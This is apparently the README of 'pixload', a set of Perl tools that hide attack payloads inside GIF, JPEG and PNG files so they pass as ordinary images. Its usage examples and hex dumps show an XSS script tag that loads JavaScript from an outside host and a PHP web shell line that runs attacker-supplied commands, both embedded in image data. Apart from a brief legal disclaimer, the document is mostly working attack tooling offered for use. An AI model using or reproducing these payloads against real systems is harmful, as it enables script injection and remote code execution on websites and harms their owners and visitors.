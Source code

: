 # pixload -- Image Payload Creating tools

## DESCRIPTION

Set of tools for creating/injecting payload into images.

## DEPENDS

The following Perl modules are required:

	- GD

	- ImageExif::Tool

	- String::HexConvert

	- URI

On Debian-based systems install these packages:

```sh
sudo apt install libgd-perl libimage-exiftool-perl libtext-string-hexconvert-perl liburi-perl
```

## TOOLS

### gif-all.pl

Create payload as a legitim `GIF` image.

##### Usage

```sh
./gif-all.pl [-payload 'String'] -output payload.gif
```
##### Example

```sh
$ ./gif-all.pl -output payload.gif
[>|      GIF89a Image ~ Payload Creator     |<]

    https://github.com/chinarulezzz/pixload


[>] Prepare GIF file
[✔] GIF with payload successfully created
[✔] File saved to: payload.gif

payload.gif: GIF image data, version 89a, 10799 x

00000000  47 49 46 38 39 61 2f 2a  00 ff 00 2c 00 00 00 00  |GIF89a/*...,....|
00000010  2f 2a 0a 00 00 02 00 3b  2a 2f 3d 31 3b 3c 73 63  |/*.....;*/=1;<sc|
00000020  72 69 70 74 20 73 72 63  3d 2f 2f 6e 6a 69 2e 78  |ript src=//nji.x|
00000030  79 7a 3e 3c 2f 73 63 72  69 70 74 3e 3b           |yz></script>;|
0000003d
```

### jpg-all.pl

Create payload as a legitim `JPEG` image.
Also, permits to inject the payload into an existing image.

##### Usage

```sh
./jpg-all.pl [-payload 'STRING'] -output payload.jpg

If the output file exists, then the payload will be injected into the
existing file.  Else the new one will be created.
```

##### Example

```sh
./jpg-all.pl -output payload.jpg
[>|        JPEG Tags ~ Payload Creator      |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] File saved to: payload.jpg

[>] Injecting payload into comment tag
[✔] Payload was injected successfully

payload.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, comment: "<script src//nji.xyz></script>", baseline, precision 8, 32x32, components 3

00000000  ff d8 ff e0 00 10 4a 46  49 46 00 01 01 01 00 60  |......JFIF.....`|
00000010  00 60 00 00 ff fe 00 20  3c 73 63 72 69 70 74 20  |.`..... <script |
00000020  73 72 63 2f 2f 6e 6a 69  2e 78 79 7a 3e 3c 2f 73  |src//nji.xyz></s|
00000030  63 72 69 70 74 3e ff db  00 43 00 08 06 06 07 06  |cript>...C......|
00000040  05 08 07 07 07 09 09 08  0a 0c 14 0d 0c 0b 0b 0c  |................|
00000050  19 12 13 0f 14 1d 1a 1f  1e 1d 1a 1c 1c 20 24 2e  |............. $.|
00000060  27 20 22 2c 23 1c 1c 28  37 29 2c 30 31 34 34 34  |' ",#..(7),01444|
00000070  1f 27 39 3d 38 32 3c 2e  33 34 32 ff db 00 43 01  |.'9=82<.342...C.|
00000080  09 09 09 0c 0b 0c 18 0d  0d 18 32 21 1c 21 32 32  |..........2!.!22|
00000090  32 32 32 32 32 32 32 32  32 32 32 32 32 32 32 32  |2222222222222222|
*
...
000002a0  28 a0 0f ff d9                                    |(....|
000002a5
```

### png-js.pl

Create `XSS` payload `<script src=//your_host></script>` as a legitim `PNG` image.

##### Usage

```sh
./png-js.pl -domain xxe.cz -output payload.png

Note: Only 3 characters domains supported.
```

##### Example

```sh
[>| PNG IDAT chunks ~ JS Payload Generator |<]
    
    https://github.com/chinarulezzz/pixload


[>] Starting GZDeflate bruteforce

    Domain: XXE.CZ
    Payload: <SCRIPT SRC=//XXE.CZ></script>

    It will take some time ~ please wait :)

[>] Bruteforcing tld
[✔] TLD successfully bruteforced

[>] Bruteforcing domain
[✔] 3rd 'E' character bruteforced
[✔] 2nd 'X' character bruteforced
[✔] 1st 'X' character bruteforced

[>] Trying to apply PNG filters
[✔] PNG filters done

[>] Generating output file
[✔] PNG with payload successfully generated
    Hex payload: 3c534352495054205352433d2f2f5858452e435a3e3c2f7363726970743e
[✔] File saved to: payload.png

payload.png: PNG image data, 32 x 32, 8-bit/color RGB, non-interlaced

00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 09 70 48 59  73 00 00 0e c4 00 00 0e  |.....pHYs.......|
00000030  c4 01 95 2b 0e 1b 00 00  00 65 49 44 41 54 48 89  |...+.....eIDATH.|
00000040  63 64 60 f8 3c 53 43 52  49 50 54 20 53 52 43 3d  |cd`.<SCRIPT SRC=|
00000050  2f 2f 58 58 45 2e 43 5a  3e 3c 2f 73 63 72 69 70  |//XXE.CZ></scrip|
00000060  74 3e 03 43 54 93 fa 4c  8d f9 57 ff 9e b9 19 f6  |t>.CT..L..W.....|
00000070  8a e5 a5 97 87 e2 a9 5b  b7 ad 9e bc e7 71 75 4c  |.......[.....quL|
00000080  90 d0 0d 62 11 58 e3 67  cc 30 0a 46 c1 28 18 05  |...b.X.g.0.F.(..|
00000090  a3 60 14 8c 82 51 30 0a  46 c1 28 18 06 00 00 84  |.`...Q0.F.(.....|
000000a0  a6 19 02 20 9f 31 8e 00  00 00 00 49 45 4e 44 ae  |... .1.....IEND.|
000000b0  42 60 82                                          |B`.|
000000b3
```

### png-php.pl

Create `PHP` payload as a legitim `PNG` image.

##### Usage

```sh
./png-php.pl -output payload.png
```

##### Example

```sh
[>| PNG IDAT chunks  ~  PHP Payload Creator |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] PNG with payload successfully generated
[✔] File saved to: payload.png

payload.png: PNG image data, 32 x 32, 8-bit/color RGB, non-interlaced

00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 09 70 48 59  73 00 00 0e c4 00 00 0e  |.....pHYs.......|
00000030  c4 01 95 2b 0e 1b 00 00  00 5c 49 44 41 54 48 89  |...+.....\IDATH.|
00000040  63 5c 3c 3f 3d 24 5f 47  45 54 5b 30 5d 28 24 5f  |c\<?=$_GET[0]($_|
00000050  50 4f 53 54 5b 31 5d 29  3b 3f 3e 58 80 81 81 c1  |POST[1]);?>X....|
00000060  73 5e 37 93 fc 8f 8b db  7e 5f d3 7d aa 27 f7 f1  |s^7.....~_.}.'..|
00000070  e3 c9 bf 5f ef 06 7c b2  30 30 63 d9 59 11 3f 8b  |..._..|.00c.Y.?.|
00000080  61 14 8c 82 51 30 0a 46  c1 28 18 05 a3 60 14 8c  |a...Q0.F.(...`..|
00000090  82 51 30 9c 00 00 d7 41  18 02 db 3e 41 55 00 00  |.Q0....A...>AU..|
000000a0  00 00 49 45 4e 44 ae 42  60 82                    |..IEND.B`.|
000000aa
```

## LICENSE

WTFPL

## LEGAL DISCLAIMER

The author does not hold any responsibility for the bad use
of this tool, remember that attacking targets without prior
consent is illegal and punished by law.


